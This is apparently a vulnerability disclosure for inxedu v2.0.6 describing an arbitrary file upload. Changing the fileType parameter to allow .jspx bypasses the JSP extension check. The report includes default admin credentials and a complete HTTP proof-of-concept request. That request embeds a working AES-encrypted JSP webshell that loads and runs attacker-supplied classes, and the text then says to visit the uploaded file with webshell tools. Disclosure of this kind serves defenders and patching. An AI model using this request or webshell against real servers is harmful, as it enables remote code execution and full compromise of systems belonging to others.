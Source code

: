 inxedu v2.0.6 has a vulnerability that can lead to upload malicious files.

Build the source code locally by downloading https://gitee.com/inxeduopen/inxedu



## code discovery

The vulnerable code location is com.inxedu.os.common.controller.ImageUploadController#gok4 

\src\main\webapp\WEB-INF\lib\inxedu-jar.jar\com\inxedu\os\common\controller\ImageUploadController.class

This code is decompiled from the project jar package（**inxedu-jar.jar**）

![image-20240515220345844](images/image-20240515220345844.png)

Line 67 check the extention of the file uploaded and restricts the upload of files ending in **jsp** ,while we can control the value of fileType by changing the parameter value of fileType, and uploading files ending with jspx bypasses the restriction.





The vulnerability exists: http://127.0.0.1:8080/admin/main

The username and password : admin/111111

![image-20240515213221111](images\image-20240515213221111.png)

![image-20240515213231936](images\image-20240515213231936.png)

![image-20240515213240060](images\image-20240515213240060.png)



## POC

```
POST /image/gok4?&param=image&fileType=jpg,gif,png,jpeg,jspx&pressText=undefined HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------1193235141139104622277612664
Content-Length: 883
Origin: http://127.0.0.1:8080
Connection: close
Referer: http://127.0.0.1:8080/admin/website/doAddImages
Cookie: JSESSIONID=10EC81B49E27265587A446F32099DBE3; inxedulogin_sys_user_=inxedulogin_sys_user_1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------1193235141139104622277612664
Content-Disposition: form-data; name="uploadfile"; filename="1.jspx"
Content-Type: image/jpeg

<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page" version="1.2"><jsp:directive.page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"/><jsp:declaration> class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}</jsp:declaration><jsp:scriptlet>String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec((session.getValue("u")+"").getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);</jsp:scriptlet></jsp:root>
-----------------------------1193235141139104622277612664--
```

![image-20240515214037538](images\image-20240515214037538.png)

We can upload a jspx file,and change the value of fileType to "jpg,gif,png,jpeg,jspx",in which we add "jspx" type.

And the response returns the jspx file path.
Then we can visit the jspx file and run the Webshell tools

![image-20240515215346349](images\image-20240515215346349.png)

![image-20240515215446474](images\image-20240515215446474.png)

